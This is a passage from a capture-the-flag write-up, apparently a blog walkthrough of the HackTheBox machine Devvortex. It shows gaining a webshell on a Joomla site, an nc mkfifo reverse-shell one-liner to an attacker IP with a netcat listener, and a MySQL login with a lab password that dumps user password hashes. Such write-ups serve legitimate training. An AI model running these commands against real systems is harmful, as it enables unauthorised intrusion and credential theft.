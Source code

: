 <br />
<br />
<br />

We now just have to **upload our ZIP file** and run the ***console.py*** to get a webshell:

```bash
./console.py -t http://dev.devvortex.htb
```

![](/assets/Devvortex/12.png)
<br />
<br />
<br />

To upgrade to a **reverse shell**, we may try multiple payloads, however the one that worked for me was the ***nc mkfifo*** one, remember to open your **netcat listener** before running the payload:

```bash
rlwrap nc -nlvp 4444
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4444 >/tmp/f
```

![](/assets/Devvortex/13.png)
<br />
<br />
<br />

We get a **reverse shell as www-data**, we can search in the **joomla database** to search for credentials, but first **sanitize the shell**:

```bash
script /dev/null -c bash
mysql -u lewis --password='P4ntherg0t1n5r3c0n##' -h localhost joomla
```

```MySQL
SELECT username, password FROM sd4fg_users;
```
